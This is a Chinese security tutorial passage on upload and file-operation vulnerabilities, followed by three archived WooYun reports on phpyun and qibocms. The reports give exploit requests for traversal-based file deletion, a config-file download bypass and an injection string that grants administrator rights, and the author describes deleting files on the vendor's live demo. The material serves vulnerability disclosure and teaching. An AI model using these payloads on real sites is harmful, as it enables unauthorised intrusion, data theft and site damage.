

# 0x05 上传

* * *

这个上传就大概说说。

一般的上传漏洞可能是未验证上传后缀 或者是验证上传后缀被 bypass 或者是上传的文件验证了上传后缀但是文件名不重命名。

对于那些验证了后缀但是文件名不重命名的

一般可以试试截断 yu.php%00.jpg 当然%00 要 urldecode

当然 毕竟截断鸡肋了。 上面提到过限制条件了。

还可以是结合各种 webserver 的解析漏洞

例如 iis6 的 xx.asp/yu.jpg yu.php;.jpg yu.asp;.jpg aspx 当然不能这样解析了。

如果不重命名的就上传这样就行了。

Nginx 的低版本解析漏洞: yu.jpg/1.php 对于这种直接上传一个 xxxx.jpg 再在这后面加上各种/.php 试试的

Apache 解析漏洞 yu.php.xxx 在最后一个后缀识别不出来的时候 那么就向上解析

最终解析成.php

像 phpweb 后台那个上传漏洞。很多人遇到 apache 的时候

无法截断的时候就上传一个 yu.php.jpg 有些人比较疑问的是为啥有时候成功有时候失败。

这个主要是看 os 像 windows 的话 .jpg 就直接是图片了

所以在 windows 下 就直接识别成图片了 而不是.php

而在 linux 下 .jpg 不被识别 就向上识别成.php

这些解析漏洞在上传中也挺经常遇到的。

上传的验证一般是 MIME、客户端的 JS 验证、白名单、黑名单。

前面两种都比较简单。

白名单就是允许用户上传哪些后缀的。 黑名单就是禁止用户上传哪些后缀的。

这两种相比来说一般是黑名单容易 bypass 一点。 黑名单的绕过还是得具体看他黑名单的代码。 有的直接大小写就过。 有些没对文件名 trim 的 直接在文件名后面加空格。 Windows 下的 文件名后%81-%99 decode 后的 或者是 windows 下的特性 .php::$data 这样上传上去依旧是.php

其实上传还挺重要的。。 但是我又不知道说哪些。 还是具体看代码把。

## 任意文件操作

* * *

这个主要是涉及到的是 任意文件删除 任意文件复制 任意文件重命名 任意文件移动 任意文件下载……。 因为像现在的 cms 很多都自带得有加密 解密 函数 例如 qibocms 的 mymd5 Dz 的 authcode 啥的。 对于这些任意文件操作的 首先可以试试拿到配置文件中的数据库的连接帐号和密码 尝试外联一下 但是很多时候都是只允许本地连的 很多时候不好利用的时候可以利用拿到配置文件 然后拿到这些函数的 key 然后自己生成一个加密的字符串 然后再结合具体的代码进行最大化的利用。

## 对于任意文件删除

* * *

一般是挺不好利用的，还是结合具体的场景，有些因为全局的过滤而不能注入的，可以尝试用任意文件删除，删掉这个文件，再进行注入 一般的利用还是通过删除安装文件生成的 lock 文件，然后达到重装。

不过这样弊很大。

例子: [WooYun: phpyun (20141230) 任意文件删除致注入可改任意用户密码(4 处打包)](http://www.wooyun.org/bugs/wooyun-2014-088418)

## 任意文件复制 / 任意文件移动 / 任意文件重命名

* * *

复制的话 肯定涉及到了 要复制的文件 要复制到的路径。

如果是要复制的文件可控 要复制到的路径不可控的话 例如 qibocms 之前的一个洞

```php
copy(ROOT_PATH."$webdb[updir]/$value",ROOT_PATH."$webdb[updir]/{$value}.jpg"); 
```

这里$value 是可控的 但是又不能截断 复制到的路径限制了.jpg 结尾。

这时候我们就可以把$value 控制为 保存了 qibocms 的加密函数的 key 的配置文件

然后复制后 成了一个.jpg 那我们就可以直接打开 看到 key 了

例子: [WooYun: Qibocms 图片系统任意文件查看导致的多处注入(可提升自己为管理员)](http://www.wooyun.org/bugs/wooyun-2014-065835)

如果两个都完全可控的话 那肯定是直接把自己的图片复制成一个.php 马儿了。

## 任意文件下载

* * *

其实跟上面复制差不多， 很多时候也是通过下载配置文件 拿到 key。 再进行各种操作。。

例子: [WooYun: qibocmsV7 整站系统任意文件下载导致无限制注入多处(可提升自己为管理 Demo 演示)](http://www.wooyun.org/bugs/wooyun-2014-066459)

这个例子还涉及到了一个 win 的特性 bypass 黑名单

# WooYun-2014-88418：phpyun (20141230) 任意文件删除致注入可改任意用户密码(4 处打包)

漏洞作者： [′雨。](http://www.wooyun.org/whitehats/′雨。)

来源：[`www.wooyun.org/bugs/wooyun-2014-088418`](http://www.wooyun.org/bugs/wooyun-2014-088418)

## 简要描述

更新了 来看看。 果然是功能越多 bug 越多 bug 越多 rank 越多。 这个不小心测试了下 demo, 把 demo 的 robots.txt 和 图标都删除了。 你们自己再加上去下把。

phpyun 基本都是靠过滤文件。 如果删除过滤文件 肯定是有注入了。 而且删除过滤文件不会像删除 install 的 lock 一样对网站造成啥损害。

## 详细说明

[`**.**.**.**/bbs/thread-8149-1-1.html`](http://**.**.**.**/bbs/thread-8149-1-1.html) //20141222

[`**.**.**.**/PHP%E4%BA%91%E4%BA%BA%E6%89%8D%E6%8B%9B%E8%81%98%E7%B3%BB%E7%BB%9FV3.2_Beta.rar`](http://**.**.**.**/PHP%E4%BA%91%E4%BA%BA%E6%89%8D%E6%8B%9B%E8%81%98%E7%B3%BB%E7%BB%9FV3.2_Beta.rar)

最新版本的 phpyun 下载地址

在 friend/model/index.class.php 中

```php
function save_avatar_action()

    {

        @header("Expires: 0");

        @header("Cache-Control: private, post-check=0, pre-check=0, max-age=0", FALSE);

        @header("Pragma: no-cache");

        $type = isset($_GET['type'])?trim($_GET['type']):'small';//没限制

        $pic_id = trim($_GET['photoId']);

        [[email protected]](/cdn-cgi/l/email-protection)(".",$pic_id);

        $uptypes=array('jpg','png','jpeg','bmp','gif');

        if(count($nameArr)!=2) //这里限制了只能含有一个小数点

        {   

            exit();

        }

        if(!is_numeric($nameArr[0])) //限制文件的名字必须为数字。

        { 

            exit();

        }

        if(!in_array(strtolower($nameArr[1]),$uptypes)) //限制文件类型只能为图片的各种类型

        {

            $d['statusText'] = iconv("gbk","utf-8",'文件类型不符!');

            $msg = json_encode($d);

            echo $msg;die;

        }

        $new_avatar_path = 'upload/friend/friend_'.$type.'/'.$pic_id;

        $len = file_put_contents(APP_PATH.$new_avatar_path,file_get_contents("php://input"));

//这里不能 getshell 因为 phpyun 全局有转义 没办法截断。 所以也只能写图片。

        $avtar_img = imagecreatefromjpeg(APP_PATH.$new_avatar_path);

        imagejpeg($avtar_img,APP_PATH.$new_avatar_path,80);

        $d['data']['urls'][0] ="../".$new_avatar_path;

        $d['status'] = 1;

        $d['statusText'] = iconv("gbk","utf-8",'上传成功!');

        $row = $this->obj->DB_select_once("friend_info","`uid`='".$this->uid."'");//查询出来自己的资料

        if($type=="small")

        {

            $this->obj->unlink_pic($row['pic']);

            $this->obj->update_once("friend_info",array("pic"=>"../".$new_avatar_path),array("uid"=>$this->uid));

            $state_content = "我刚更换了新头像。<br>config['sy_weburl']."/".$new_avatar_path."\">";

            $this->addstate($state_content);

            $this->obj->member_log("更换了新头像");

        }else{

            $this->obj->unlink_pic($row['pic_big']);//删除图片

            $this->obj->update_once("friend_info",array("pic_big"=>"../".$new_avatar_path),array("uid"=>$this->uid));//这里把自己的图片入库

        }

        $msg = json_encode($d);

        echo $msg;

    } 
```

因为全局有转义, 所以$new_avatar_path 没办法截断

$this->obj->update_once("friend_info",array("pic_big"=>"../".$new_avatar_path),array("uid"=>$this->uid)) 但是这里有一个入库。

入库了 然后再把 $this->obj->unlink_pic($row['pic_big']);//删除图片

出库出来的删掉。 所以我们可以再次截断了。 所以这个截断也无视 GPC 啥的。

用 phpyun 的 demo **.**.**.**测试 首先注册一个会员 然后请求

www.**.**.**.**//friend/index.php?m=index&c=save_avatar&photoId=1.jpg&type=xxx/../../../robots.txt%00


这样先转义入库了。 然后就按照这样再请求一次。

www.**.**.**.**//friend/index.php?m=index&c=save_avatar&photoId=1.jpg&type=xxx/../../../robots.txt%00

再请求一次 出库, 然后就又能截断 成功删除了 robots.txt

测试的时候把 demo 的 robots.txt 删掉了 [`www.**.**.**.**/robots.txt`](http://www.**.**.**.**/robots.txt) 已经 404 了。

你们自己添加上去一下把。

进一步的利用的话 我们可以先删除 lock 然后重装进行 getshell

/friend/index.php?m=index&c=save_avatar&photoId=1.jpg&type=xxx/../../../data/phpyun.lock%00

这个需要请求两次。




成功 GETSHELL。

* * *

第二处在 member/com/model/show.class.php 中

```php
function del_action(){

        if($_GET['id']){

            $row=$this->obj->DB_select_once("company_show","`id`='".(int)$_GET['id']."' and `uid`='".$this->uid."'","`picurl`");//出库

            if(is_array($row))

            {

                $this->obj->unlink_pic(".".$row['picurl']);//这里把出库的删除掉 来看看哪里入库

$oid=$this->obj->DB_delete_all("company_show","`id`='".(int)$_GET['id']."' and `uid`='".$this->uid."'");

            }

            if($oid)

            {

                $this->obj->member_log("删除企业环境展示");

                $this->layer_msg('删除成功！',9);

            }else{

                $this->layer_msg('删除失败！',8);

            }

        } 
```

```php
function upshow_action(){

       if($_POST['submitbtn']){

           $time=time();

            unset($_POST['submitbtn']);

            if(!empty($_FILES['uplocadpic']['tmp_name']))

            {

                    $upload=$this->upload_pic("../upload/show/",false);

                    $uplocadpic=$upload->picture($_FILES['uplocadpic']);

                    $this->picmsg($uplocadpic,$_SERVER['HTTP_REFERER']);

                    $uplocadpic = str_replace("../upload/show","./upload/show",$uplocadpic);

                    $row=$this->obj->DB_select_once("company_show","`uid`='".(int)$_POST['uid']."' and `id`='".intval($_POST['id'])."'","`picurl`");

                    if(is_array($row))

                    {

                        $this->obj->unlink_pic(".".$row['picurl']);

                    }

            }else{

                $uplocadpic=$_POST['picurl'];//当没定义 _FILES 的时候竟然直接接受 _POST 来的。。 那么直接用户可控了。

            }

            $nid=$this->obj->DB_update_all("company_show","`picurl`='".$uplocadpic."',`title`='".$_POST['title']."',`sort`='".$_POST['showsort']."',`ctime`='".$time."'","`uid`='".$this->uid."'and `id`='".$_POST['id']."'");//入库入库

            if($nid) 
```

因为这里是 update 所以要先入库一个

在 model/user.php 中

```php
function saveshow_action()

    {

        if (!empty($_FILES))

        {

            $pic=$name='';

            $data=array();

            $tempFile = $_FILES['Filedata'];

            $upload=$this->upload_pic("./upload/show/");

            $pic=$upload->picture($tempFile);

            [[email protected]](/cdn-cgi/l/email-protection)('.',$_FILES['Filedata']['name']);

            $picurl=str_replace("../upload/show","./upload/show",$pic); //可以看到这里是不可控的

            $data['picurl']= $picurl;

            $data['title']=$this->stringfilter($name[0]);

            $data['ctime']=time();

            $data['uid']=(int)$_POST['uid'];

            $data['eid']=(int)$_GET['eid'];

            $id=$this->obj->insert_into("resume_show",$data);

            if($id){

                 echo $name[0]."||".$picurl."||".$id;die;

            }else{

                echo "2";die;

            }

        }

    }

} 
```


文件名不可控 再回来 update 里来

这里因为 unlink_pic 限制了必须为 jpg 后缀之类的 这里我们截断一下


成功删除根目录的文件。

* * *

第三处

member/user/model/show.class.php //跟上面一个相同的原理 不过是因为一个是企业会员操作的 一个是个人会员操作的、 这里代码我都不贴了 你们自己查把。

第四处

member/user/model/resume.class.php

```php
function del_action(){

        $del=(int)$_GET['id'];

        $show=$this->obj->DB_select_all("resume_show","`eid`='".$del."' and `picurl`<>''","`picurl`");

        if(is_array($show))

        {

            foreach($show as $v)

            {

                @unlink(".".$show['picurl']);

            }

        } 
```

入库也在/member/user/model/show.class.php

function upshow_action(){ 也是因为用户可控了。

* * *

这里来搞一下注入

首先我们用上面的方法删除 data/db.safety.php 这个参照上面的方法 就不多说了。

首先删除 data/db.safety.php 后 就不会转义了 那么我们就能引入单引号了。

再找一个不会对查询转义的函数就行了。

在 model/forgetpw.class.php 中

```php
function editpw_action()

    {

        if($_POST['username'] && $_POST['code'] && $_POST['pass'])

        {

            $password = $_POST['pass'];

            $cert = $this->obj->DB_select_once("company_cert","`type`='5' AND `check2`='".$_POST['username']."' AND `check`='".$_POST['code']."' order by id desc","`uid`,`check2`,`ctime`");//这里直接把$_POST 的带入了查询 因为删除了过滤文件 所以不转义 

            if(!$cert['uid'])

            {

                $this->obj->ACT_layer_msg('验证码填写错误！',8,$this->url("index","forgetpw","1"));  

            }elseif((time()-$cert['ctime'])>1200){

                $this->obj->ACT_layer_msg('验证码已失效，请重新获取！',8,$this->url("index","forgetpw","1"));   

            }

            $info = $this->obj->DB_select_once("member","`uid`='".$cert['uid']."'","`email`");

            if(is_array($info))

            {

                $info['username'] = $cert['check2'];

                if($this->config[sy_uc_type]=="uc_center" && $info['name_repeat']!="1")

                {

                    $this->obj->uc_open();

                    uc_user_edit($info[username], "", $password, $info['email'],"0");

                }else{

                    $salt = substr(uniqid(rand()), -6);

                    $pass2 = md5(md5($password).$salt);

                    $value="`password`='$pass2',`salt`='$salt'";

                    $this->obj->DB_update_all("member",$value,"`uid`='".$cert['uid']."'");

                }

                $this->obj->ACT_layer_msg('密码修改成功！',9,$this->url("index","login","1"));    

            }else{ 
```

在满足这些条件后 甚至可以改任意用户的密码


## 漏洞证明


## 修复方案

漏洞的源头还是任意文件删除 怎么能让用户直接控制呢。

# WooYun-2014-65835：Qibocms 图片系统任意文件查看导致的多处注入(可提升自己为管理员)

漏洞作者： [′雨。](http://www.wooyun.org/whitehats/′雨。)

来源：[`www.wooyun.org/bugs/wooyun-2014-065835`](http://www.wooyun.org/bugs/wooyun-2014-065835)

## 简要描述

最大化。 还有个跟之前类似的洞 这里就不多说了。

## 详细说明

[`**.**.**.**/down2.php?v=photo1.0#down`](http://**.**.**.**/down2.php?v=photo1.0#down)

下载地址

还有类似的 就说这里了。

在 photo/member/post.php 中

```php
require_once(Mpath."inc/check.postarticle.php");

if($job=='postnew')

{

    if($step=='post')

    {

        post_new();

        //生成静态

        make_article_html("$Murl/member/post.php?job=endHTML&aid=$aid");

        $mid && $mid<106 && $none='none';

        refreshto("?job=postnew&fid=$fid","<CENTER>[<A HREF='?job=postnew&fid=$fid'>继续发表新主题</A>] <span style='display:$none;'>[<A HREF='?job=post_more&fid=$fid&aid=$aid'>续发本主题</A>]</span> [<A HREF='myarticle.php?job=myarticle&fid=$fid'>返回主题列表</A>] [<A HREF='$Mdomain/bencandy.php?fid=$fid&aid=$aid' target=_blank>查看主题</A>] [<A HREF='?job=edit&aid=$aid'>点击修改</A>]</CENTER>",60);

    } 
```

在这里 又是包含这个文件进来。

inc/check.postarticle.php

进去看看。

```php
$postdb[smalltitle]    =    filtrate($postdb[smalltitle]);

    $postdb[picurl]        =    filtrate($postdb[picurl]);

    //$postdb[description]=    filtrate($postdb[description]);

    $postdb[author]        =    filtrate($postdb[author]);

    $postdb[copyfrom]    =    filtrate($postdb[copyfrom]);

    $postdb[copyfromurl]=    filtrate($postdb[copyfromurl]);

    $postdb[description]    =    preg_replace('/javascript/i','java script',$postdb[description]);

    $postdb[description]    =    preg_replace('/<iframe ([^<>]+)>/i','&lt;iframe \\1>',$postdb[description]);

    //针对火狐浏览器做的处理

    $postdb[content]=str_replace("=\\\"../$webdb[updir]/","=\\\"$webdb[www_url]/$webdb[updir]/",$postdb[content]);

    if(!$groupdb[PostNoDelCode]){

        $postdb[content]    =    preg_replace('/javascript/i','java script',$postdb[content]);

        $postdb[content]    =    preg_replace('/<iframe ([^<>]+)>/i','&lt;iframe \\1>',$postdb[content]);

    }

    //采集外部图片

    $postdb[content]    =    get_outpic($postdb[content],$fid,$GetOutPic); 
```

在这里又调用了 get_outpic 这个函数 可以跟之前发的媒体版结合解析漏洞 Getshell 那样一样的利用。

这里我就不多说这个了、

继续往下面看 看看有神马不同的没。

这里和媒体版的那个还是有不同的

```php
if($post_db){

        foreach($post_db[photourl][url] AS $key=>$value){

            $value=trim($value);

            if(!$value||eregi("://",$value)){

                continue;

            }

            if(!$postdb[picurl]){

                copy(ROOT_PATH."$webdb[updir]/$value",ROOT_PATH."$webdb[updir]/{$value}.jpg");

                $postdb[picurl]="{$value}.jpg";

            }

            move_attachment($lfjuid,tempdir($value),$downloadDIR); 
```

在这里$post_db 结合 qibocms 的伪全局 直接 提交一下就行了。

```php
foreach($post_db[photourl][url] AS $key=>$value){

            $value=trim($value);

            if(!$value||eregi("://",$value)){

                continue;

            } 
```

在这里循环出来后 不能让他匹配出:// 然后继续看

if(!$postdb[picurl]){ 当这个为 false 的时候进入分支所以就不提交这个了。

```php
copy(ROOT_PATH."$webdb[updir]/$value",ROOT_PATH."$webdb[updir]/{$value}.jpg");

                $postdb[picurl]="{$value}.jpg"; 
```

然后把循环出来的 value copy 成 jpg。

这里如果我们控制这个$value 为配置文件 然后 copy 成.php.jpg 后就可以直接查看配置文件了。

但是这只是一个任意文件读取。 怎么来把他最大利用呢。

继续看在 member/yz.php 中

elseif($action=='mobphone2')

{

if($lfjdb[mob_yz]){

showerr("请不要重复验证手机号码!");

}

if(!$yznum){

showerr("请输入验证码");

}

elseif(!$md5code){

showerr("资料有误");

}else{

unset($code,$mobphone,$uid);

list($code,$mobphone,$uid)=explode("\t",mymd5($md5code,"DE") );

if($code!=$yznum||$uid!=$lfjuid){

showerr("验证码不对");

}

}

add_user($lfjuid,$webdb[YZ_MobMoney],'手机号码审核奖分');

$db->query("UPDATE {$pre}memberdata SET mobphone='$mobphone',mob_yz='1' WHERE uid='$lfjuid'");

把$mobphone 直接带入到了查询当中 而且在 set 位 如果可以成功引入单引号的话 那可就可以直接提升自己为管理了。

但是 qibocms 对全局的 GET POST COOKIE 都 addslashes 了。

来看看这函数

```php
function mymd5($string,$action="EN",$rand=''){ //字符串加密和解密 

    global $webdb;

    $secret_string = $webdb[mymd5].$rand.'5*j,.^&;?.%#@!'; //绝密字符串,可以任意设定 

    if(!is_string($string)){

        $string=strval($string);

    }

    if($string==="") return ""; 

    if($action=="EN") $md5code=substr(md5($string),8,10); 

    else{ 

        $md5code=substr($string,-10); 

        $string=substr($string,0,strlen($string)-10); 

    }

    //$key = md5($md5code.$_SERVER["HTTP_USER_AGENT"].$secret_string);

    $key = md5($md5code.$secret_string); 

    $string = ($action=="EN"?$string:base64_decode($string)); 

    $len = strlen($key); 

    $code = "";

    for($i=0; $i<strlen($string); $i++){ 

        $k = $i%$len; 

        $code .= $string[$i]^$key[$k]; 

    }

    $code = ($action == "DE" ? (substr(md5($code),8,10)==$md5code?$code:NULL) : base64_encode($code)."$md5code");

    return $code; 

} 
```

是一个加密解密的函数　　如果可以知道 key 的话　那就可以自己生成一个语句然后来注入了。

然后利用任意文件读取那洞 可以看到 key 的。

SO Come on.

## 漏洞证明

首先利用任意文件读取。读取 data/config.php


成功拿到 key 然后自己写个脚本 来生成一个语句。


构造一下语句 yu',groupid=3 where uid=2#

groupid 为 3 的话即为管理员

不知道 uid 的话 可以直接就构造 yu' 报错后就能看到 uid

然后调用函数生成一下语句。


成功 update。

调用这函数的地方还有很多

——————————————————————————————————————

在 inc/common.inc.php 中

```php
if($_COOKIE["adminID"]&&$detail=mymd5($_COOKIE["adminID"],'DE',$onlineip)){

    unset($_uid,$_username,$_password);

    list($_uid,$_username,$_password)=explode("\t",$detail);

    $lfjdb=$db->get_one("SELECT * FROM {$pre}memberdata WHERE uid='$_uid' AND username='$_username'");

}

if($lfjdb[yz]){

    $lfjid=$lfjdb['username'];

    $lfjuid=$lfjdb['uid'];

    $lfjdb[icon] && $lfjdb[icon]=tempdir($lfjdb[icon]);

    if($lfjdb['groupid']==3||$lfjdb['groupid']==4){

        $web_admin=$sort_admin='1';

    }

    if( file_exists(ROOT_PATH."data/group/{$lfjdb[groupid]}.php") ){

        [[email protected]](/cdn-cgi/l/email-protection)( ROOT_PATH."data/group/{$lfjdb[groupid]}.php"); 
```

貌似验证通过了就直接登录后台　来看看。

$_COOKIE["adminID"]&&$detail=mymd5($_COOKIE["adminID"],'DE',$onlineip

在这里　调用了这函数　这里需要注意一下　后面还跟了第三个参数$onlineip

看看第三个参数在函数中起的作用。

```php
function mymd5($string,$action="EN",$rand=''){ //字符串加密和解密 

    global $webdb;

    $secret_string = $webdb[mymd5].$rand.'5*j,.^&;?.%#@!'; 
```

加入到了这个$secret_string 里面。

然后$onlineip　这个是根据 xff 来的 最后判断了一下是否是正确的 ip

如果不正确 ip 就为**.**.**.** 这里我们构造 xff 为一个错误的 ip 就行

$onlineip 就为**.**.**.**了。

然后再生成一下语句。


应该可以直接登录后台 懒得弄了。

## 修复方案

源头还是任意文件查看。，

# WooYun-2014-66459：qibocmsV7 整站系统任意文件下载导致无限制注入多处(可提升自己为管理 Demo 演示)

漏洞作者： [′雨。](http://www.wooyun.org/whitehats/′雨。)

来源：[`www.wooyun.org/bugs/wooyun-2014-066459`](http://www.wooyun.org/bugs/wooyun-2014-066459)

## 简要描述

我擦 写完标题后发现标题如此的长。

应该是 qibo 中用得最多的系统了把。

与之前我发的那个有所不同。 Fuzz。

发现 qibo 是不是换人了? 给分给的越来越低? 之前 18 到 10 到现在的 5 分了?

用 demo 来演示演示把。

应该可以直接登录后台 懒得弄了。

如果这个洞还不给 20 的话 我只能呵呵了。

## 详细说明

[`**.**.**.**/down2.php?v=v7#down`](http://**.**.**.**/down2.php?v=v7#down)

下载地址 刚下载的。

在 inc/job/download.php 中

```php
$url=trim(base64_decode($url));

$fileurl=str_replace($webdb[www_url],"",$url);

if( eregi(".php",$fileurl) && is_file(ROOT_PATH."$fileurl") ){

    die("ERR");

}

if(!$webdb[DownLoad_readfile]){

    $fileurl=strstr($url,"://")?$url:tempdir($fileurl);

    header("location:$fileurl");

    exit;

}

if( is_file(ROOT_PATH."$fileurl") ){

    $filename=basename($fileurl);

    $filetype=substr(strrchr($filename,'.'),1);

    $_filename=preg_replace("/([\d]+)_(200[\d]+)_([^_]+)\.([^\.]+)/is","\\3",$filename);

    if(eregi("^([a-z0-9=]+)$",$_filename)&&!eregi("(jpg|gif|png)$",$filename)){

        $filename=urldecode(base64_decode($_filename)).".$filetype";

    }

    ob_end_clean();

    header('Last-Modified: '.gmdate('D, d M Y H:i:s',time()).' GMT');

    header('Pragma: no-cache');

    header('Content-Encoding: none');

    header('Content-Disposition: attachment; filename='.$filename);

    header('Content-type: '.$filetype);

    header('Content-Length: '.filesize(ROOT_PATH."$fileurl"));

    readfile(ROOT_PATH."$fileurl");

}else{

    if(eregi(".php",$fileurl)){

        header("location:$fileurl");

        exit;

    }

    $filename=basename($fileurl);

    $filetype=substr(strrchr($filename,'.'),1);

    $fileurl=strstr($url,"://")?$url:tempdir($fileurl);

    ob_end_clean();

    header('Last-Modified: '.gmdate('D, d M Y H:i:s',time()).' GMT');

    header('Pragma: no-cache');

    header('Content-Encoding: none');

    header('Content-Disposition: attachment; filename='.$filename);

    header('Content-type: '.$filetype);

    readfile($fileurl); 
```

```php
$url=trim(base64_decode($url))

$fileurl=str_replace($webdb[www_url],"",$url);

if( eregi(".php",$fileurl) && is_file(ROOT_PATH."$fileurl") ){

    die("ERR"); 
```

这里由于是解码后再匹配 所以不能靠编码绕过。

只要匹配到.php 就退出 。 测试了一下.php. 也会被匹配出。

这里还开启了 i 模式 所以像 phP 之类的大小写绕过也没办法。

难道真的没办法了?

```php
if( is_file(ROOT_PATH."$fileurl") ){

    $filename=basename($fileurl);

    $filetype=substr(strrchr($filename,'.'),1);

    $_filename=preg_replace("/([\d]+)_(200[\d]+)_([^_]+)\.([^\.]+)/is","\\3",$filename);

    if(eregi("^([a-z0-9=]+)$",$_filename)&&!eregi("(jpg|gif|png)$",$filename)){

        $filename=urldecode(base64_decode($_filename)).".$filetype";

    }

    ob_end_clean();

    header('Last-Modified: '.gmdate('D, d M Y H:i:s',time()).' GMT');

    header('Pragma: no-cache');

    header('Content-Encoding: none');

    header('Content-Disposition: attachment; filename='.$filename);

    header('Content-type: '.$filetype);

    header('Content-Length: '.filesize(ROOT_PATH."$fileurl"));

    readfile(ROOT_PATH."$fileurl"); 
```

在这里调用了 is_file 这函数来检测文件是否存在,如果存在的话才会进入这语句块。

由于匹配出.php 就会退出。 能有什么办法呢?

这里我们来 fuzz is_file 这函数一下。

```php
<?php

for ($i=0; $i<255; $i++) {

$yu = '1.ph' . chr($i);

$yu1 = @is_file($yu);

if (!empty($yu1)){

echo chr($i);

echo "</br>";

}

}

?> 
```

在本地新建一个 1.php 的文件。 然后 is_file 看看有神么能输出来。


可以看到除开 P p 还有其他的

因为开启了 i 所以 P p 都不行 来试试<

```php
<?Php 

$a=$_GET[a];

$b=is_file($a);

var_dump($b); 
```


可以看到 1.ph< 返回了 true 这样不就可以绕过这个的过滤了?

因为我看英文看不怎么懂。。 那些什么翻译 翻译来又太蛋疼了 一大堆翻译错误的。

以下是我的理解 可能有错 也请大牛来指导指导了。

因为当 PHP 解析器解析这些函数的时候 会调用 winapi

调用了 Winapi 的函数 Findfirstfile

然后<字符被转换成了* 成了通配符。

所以导致 1.ph< 找到了 1.php。

也就导致了这个漏洞的产生。

这里不止 is_file 函数调用了这个 api 大部分的函数都调用了这个 api


可以看到 unlink 函数用这方法就不行。

没调用这 api 的函数大概有 unlink、rename、rmdir 就这三个了。

其他的函数基本都调用了。

* * *

上面那个介绍完了, 继续回到 qibocms。。

```php
if( is_file(ROOT_PATH."$fileurl") ){

    $filename=basename($fileurl);

    $filetype=substr(strrchr($filename,'.'),1);

    $_filename=preg_replace("/([\d]+)_(200[\d]+)_([^_]+)\.([^\.]+)/is","\\3",$filename);

    if(eregi("^([a-z0-9=]+)$",$_filename)&&!eregi("(jpg|gif|png)$",$filename)){

        $filename=urldecode(base64_decode($_filename)).".$filetype";

    }

    ob_end_clean();

    header('Last-Modified: '.gmdate('D, d M Y H:i:s',time()).' GMT');

    header('Pragma: no-cache');

    header('Content-Encoding: none');

    header('Content-Disposition: attachment; filename='.$filename);

    header('Content-type: '.$filetype);

    header('Content-Length: '.filesize(ROOT_PATH."$fileurl"));

    readfile(ROOT_PATH."$fileurl"); 
```

在这里通过 is_file 的判断后。

```php
$filename=basename($fileurl);

    $filetype=substr(strrchr($filename,'.'),1);

    $_filename=preg_replace("/([\d]+)_(200[\d]+)_([^_]+)\.([^\.]+)/is","\\3",$filename);

    if(eregi("^([a-z0-9=]+)$",$_filename)&&!eregi("(jpg|gif|png)$",$filename)){

        $filename=urldecode(base64_decode($_filename)).".$filetype";

    } 
```

对这些有进行了各种处理, 但是我没搞懂对这些的处理有什么用?

readfile(ROOT_PATH."$fileurl")

最后带入 readfile 的是$fileurl。

Come on 利用来吧。

```php
$url=trim(base64_decode($url));

$fileurl=str_replace($webdb[www_url],"",$url);

if( eregi(".php",$fileurl) && is_file(ROOT_PATH."$fileurl") ){

    die("ERR");

} 
```

这里由于会先解码所以首先要自己编码一次。

这里我们来下载 data/config.php 这文件。

对 data/config.php base64 encode

试试


被匹配出了 再对 data/config.ph< base64 encode


成功下载到配置文件

* * *

这里如何让任意文件下载变成注入?

这里 qibocms 里面有一个加密解码的函数

```php
function mymd5($string,$action="EN",$rand=''){ //字符串加密和解密 

    global $webdb;

    if($action=="DE"){//处理+号在 URL 传递过程中会异常

        $string = str_replace('QIBO|ADD','+',$string);

    }

    $secret_string = $webdb[mymd5].$rand.'5*j,.^&;?.%#@!'; //绝密字符串,可以任意设定 

    if(!is_string($string)){

        $string=strval($string);

    }

    if($string==="") return ""; 

    if($action=="EN") $md5code=substr(md5($string),8,10); 

    else{ 

        $md5code=substr($string,-10); 

        $string=substr($string,0,strlen($string)-10); 

    }

    //$key = md5($md5code.$_SERVER["HTTP_USER_AGENT"].$secret_string);

    $key = md5($md5code.$secret_string); 

    $string = ($action=="EN"?$string:base64_decode($string)); 

    $len = strlen($key); 

    $code = "";

    for($i=0; $i<strlen($string); $i++){ 

        $k = $i%$len; 

        $code .= $string[$i]^$key[$k]; 

    }

    $code = ($action == "DE" ? (substr(md5($code),8,10)==$md5code?$code:NULL) : base64_encode($code)."$md5code");

    if($action=="EN"){//处理+号在 URL 传递过程中会异常

        $code = str_replace('+','QIBO|ADD',$code);

    }

    return $code; 

} 
```

这里的 key 是保存到配置文件里面的, 当我们拿到 key 过后就可以调用这函数自己来生成一个加密的字符串。

再找哪里调用了这函数来解密的。 这样就无视了 qibocms 的全局转义。

key 就是保存到 data/config.php 里面的 刚才通过任意文件下载已经拿到了。


还是给官方的 key 打个码、

来找找哪里调用了这函数的。

首先在 member/yz.php 里面

```php
elseif($action=='mobphone2')

{

    if($lfjdb[mob_yz]){

        showerr("请不要重复验证手机号码!");

    }

    if(!$yznum){

        showerr("请输入验证码");

    }elseif(!$md5code){

        showerr("资料有误");

    }else{

        unset($code,$mobphone,$uid);

        list($code,$mobphone,$uid)=explode("\t",mymd5($md5code,"DE") );

        if($code!=$yznum||$uid!=$lfjuid){

            showerr("验证码不对");

        }

    }

    add_user($lfjuid,$webdb[YZ_MobMoney],'手机号码审核奖分');

    $db->query("UPDATE {$pre}memberdata SET mobphone='$mobphone',mob_yz='1' WHERE uid='$lfjuid'");

    refreshto("yz.php?job=mob","恭喜你,你的手机号码成功通过审核,你同时得到 {$webdb[YZ_MobMoney]} 个积分奖励!",10); 
```

这里调用了 mymd5 而且是 decode 所以解码后就能直接注入了。

而且可以发现 update 的表是 memberdata 这个表里面 groupid column 就是用来判断是不是管理员的。

而且$mobphone 是解码后来的 而且直接在 set 位 这里只要稍微构造一下

就可以直接 update groupid=3 然后就提升自己为管理员了。

这里在之前的图片系统里提到过 就不多说了。

再继续来看看。

在 inc/common.inc.php 中 登录后台的时候也调用了这个

```php
if($_COOKIE["adminID"]&&$detail=mymd5($_COOKIE["adminID"],'DE',$onlineip)){

    unset($_uid,$_username,$_password);

    list($_uid,$_username,$_password)=explode("\t",$detail);

    $lfjdb=$db->get_one("SELECT * FROM {$pre}memberdata WHERE uid='$_uid' AND username='$_username'");

} 
```

mymd5($_COOKIE["adminID"],'DE',$onlineip)

这里解码的时候还调用了$onlineip 进了第三个参数
